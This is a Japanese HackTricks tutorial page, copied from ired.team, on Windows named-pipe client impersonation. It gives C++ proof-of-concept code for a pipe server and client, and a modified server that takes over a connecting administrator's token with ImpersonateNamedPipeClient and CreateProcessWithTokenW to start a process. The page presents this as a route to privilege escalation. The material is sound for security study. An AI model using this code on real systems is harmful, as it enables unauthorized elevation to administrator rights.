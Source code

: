 # 名前付きパイプクライアントのなりすまし

## 名前付きパイプクライアントのなりすまし

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)でAWSハッキングをゼロからヒーローまで学ぶ</strong></summary>

HackTricksをサポートする他の方法:

* **HackTricksにあなたの会社を広告したい**、または**HackTricksをPDFでダウンロードしたい**場合は、[**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS & HackTricksグッズ**](https://peass.creator-spring.com)を入手する
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクションをチェックする
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)に**参加する**か、[**テレグラムグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)で**フォローする**。
* [**HackTricks**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のgithubリポジトリにPRを提出して、あなたのハッキングのコツを**共有する**。

</details>

**この情報は** [**https://ired.team/offensive-security/privilege-escalation/windows-namedpipes-privilege-escalation**](https://ired.team/offensive-security/privilege-escalation/windows-namedpipes-privilege-escalation) **からコピーされました**

## 概要

`pipe`は、プロセスが通信やデータ交換に使用できる共有メモリのブロックです。

`Named Pipes`は、プロセスが異なるネットワークにあっても、関連性のない2つのプロセス間でデータを交換できるようにするWindowsのメカニズムです。クライアント/サーバーアーキテクチャに非常に似ており、`named pipe server`（名前付きパイプサーバー）と名前付きの`pipe client`（パイプクライアント）という概念が存在します。

名前付きパイプサーバーは、あらかじめ定義された名前で名前付きパイプを開き、その後、名前付きパイプクライアントは既知の名前を介してそのパイプに接続できます。接続が確立されると、データ交換を開始できます。

このラボは、以下を可能にするシンプルなPoCコードに関するものです：

* 1つのクライアント接続を受け入れるシングルスレッドのダム名前付きパイプサーバーを作成する
* 名前付きパイプサーバーが名前付きパイプにシンプルなメッセージを書き込むことで、パイプクライアントがそれを読むことができる

## コード

以下は、サーバーとクライアントの両方のPoCです：

{% tabs %}
{% tab title="namedPipeServer.cpp" %}
```cpp
#include "pch.h"
#include <Windows.h>
#include <iostream>

int main() {
LPCWSTR pipeName = L"\\\\.\\pipe\\mantvydas-first-pipe";
LPVOID pipeBuffer = NULL;
HANDLE serverPipe;
DWORD readBytes = 0;
DWORD readBuffer = 0;
int err = 0;
BOOL isPipeConnected;
BOOL isPipeOpen;
wchar_t message[] = L"HELL";
DWORD messageLenght = lstrlen(message) * 2;
DWORD bytesWritten = 0;

std::wcout << "Creating named pipe " << pipeName << std::endl;
serverPipe = CreateNamedPipe(pipeName, PIPE_ACCESS_DUPLEX, PIPE_TYPE_MESSAGE, 1, 2048, 2048, 0, NULL);

isPipeConnected = ConnectNamedPipe(serverPipe, NULL);
if (isPipeConnected) {
std::wcout << "Incoming connection to " << pipeName << std::endl;
}

std::wcout << "Sending message: " << message << std::endl;
WriteFile(serverPipe, message, messageLenght, &bytesWritten, NULL);

return 0;
}
```
{% endtab %}

{% tab title="namedPipeClient.cpp" %}
```cpp
#include "pch.h"
#include <iostream>
#include <Windows.h>

const int MESSAGE_SIZE = 512;

int main()
{
LPCWSTR pipeName = L"\\\\10.0.0.7\\pipe\\mantvydas-first-pipe";
HANDLE clientPipe = NULL;
BOOL isPipeRead = true;
wchar_t message[MESSAGE_SIZE] = { 0 };
DWORD bytesRead = 0;

std::wcout << "Connecting to " << pipeName << std::endl;
clientPipe = CreateFile(pipeName, GENERIC_READ | GENERIC_WRITE, 0, NULL, OPEN_EXISTING, 0, NULL);

while (isPipeRead) {
isPipeRead = ReadFile(clientPipe, &message, MESSAGE_SIZE, &bytesRead, NULL);
std::wcout << "Received message: " << message;
}

return 0;
}
```
{% endtab %}
{% endtabs %}

## 実行

以下は、名前付きパイプサーバーと名前付きパイプクライアントが期待通りに動作していることを示しています：

![](<../../.gitbook/assets/Screenshot from 2019-04-02 23-44-22.png>)

名前付きパイプの通信はデフォルトでSMBプロトコルを使用することに注意が必要です：

![](<../../.gitbook/assets/Screenshot from 2019-04-04 23-51-48.png>)

プロセスが名前付きパイプ `mantvydas-first-pipe` へのハンドルをどのように維持しているかを確認します：

![](<../../.gitbook/assets/Screenshot from 2019-04-02 23-44-22 (1).png>)

同様に、クライアントが名前付きパイプへのオープンハンドルを持っているのを見ることができます：

![](<../../.gitbook/assets/Screenshot from 2019-04-02 23-44-22 (2).png>)

powershellで私たちのパイプを見ることもできます：
```csharp
((Get-ChildItem \\.\pipe\).name)[-1..-5]
```
```markdown
## トークンのなりすまし

{% hint style="info" %}
クライアントプロセスのトークンをなりすましするためには、パイプを作成するサーバープロセスが **`SeImpersonate`** トークン権限を持っている必要があります。
{% endhint %}

名前付きパイプサーバーは、`ImpersonateNamedPipeClient` APIコールを利用して名前付きパイプクライアントのセキュリティコンテキストをなりすまし、名前付きパイプサーバーの現在のスレッドのトークンを名前付きパイプクライアントのトークンに変更することが可能です。

なりすましを実現するために、名前付きパイプサーバーのコードを以下のように更新できます - 変更点は25行目以降にあります:
```
```cpp
int main() {
LPCWSTR pipeName = L"\\\\.\\pipe\\mantvydas-first-pipe";
LPVOID pipeBuffer = NULL;
HANDLE serverPipe;
DWORD readBytes = 0;
DWORD readBuffer = 0;
int err = 0;
BOOL isPipeConnected;
BOOL isPipeOpen;
wchar_t message[] = L"HELL";
DWORD messageLenght = lstrlen(message) * 2;
DWORD bytesWritten = 0;

std::wcout << "Creating named pipe " << pipeName << std::endl;
serverPipe = CreateNamedPipe(pipeName, PIPE_ACCESS_DUPLEX, PIPE_TYPE_MESSAGE, 1, 2048, 2048, 0, NULL);

isPipeConnected = ConnectNamedPipe(serverPipe, NULL);
if (isPipeConnected) {
std::wcout << "Incoming connection to " << pipeName << std::endl;
}

std::wcout << "Sending message: " << message << std::endl;
WriteFile(serverPipe, message, messageLenght, &bytesWritten, NULL);

std::wcout << "Impersonating the client..." << std::endl;
ImpersonateNamedPipeClient(serverPipe);
err = GetLastError();

STARTUPINFO	si = {};
wchar_t command[] = L"C:\\Windows\\system32\\notepad.exe";
PROCESS_INFORMATION pi = {};
HANDLE threadToken = GetCurrentThreadToken();
CreateProcessWithTokenW(threadToken, LOGON_WITH_PROFILE, command, NULL, CREATE_NEW_CONSOLE, NULL, NULL, &si, &pi);

return 0;
}
```
```markdown
管理者@offense.local セキュリティコンテキストで実行されているクライアントでサーバーに接続すると、名前付きサーバーパイプのメインスレッドが名前付きパイプクライアント - offense\administrator のトークンを引き受けたことがわかります。これは、PipeServer.exe 自体が ws01\mantvydas セキュリティコンテキストで実行されているにもかかわらずです。権限昇格には良い方法のようですか？

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert) で AWS ハッキングをゼロからヒーローまで学ぶ</strong></summary>

HackTricks をサポートする他の方法:

* **HackTricks にあなたの会社を広告したい**、または **HackTricks を PDF でダウンロードしたい**場合は、[**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式 PEASS & HackTricks グッズ**](https://peass.creator-spring.com)を入手する
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) を発見し、独占的な [**NFT**](https://opensea.io/collection/the-peass-family) コレクションをチェックする
* 💬 [**Discord グループ**](https://discord.gg/hRep4RUj7f) に**参加する**か、[**telegram グループ**](https://t.me/peass) に参加するか、**Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm) を **フォローする**。
* [**HackTricks**](https://github.com/carlospolop/hacktricks) と [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) の github リポジトリに PR を提出して、あなたのハッキングのコツを **共有する**。

</details>
```
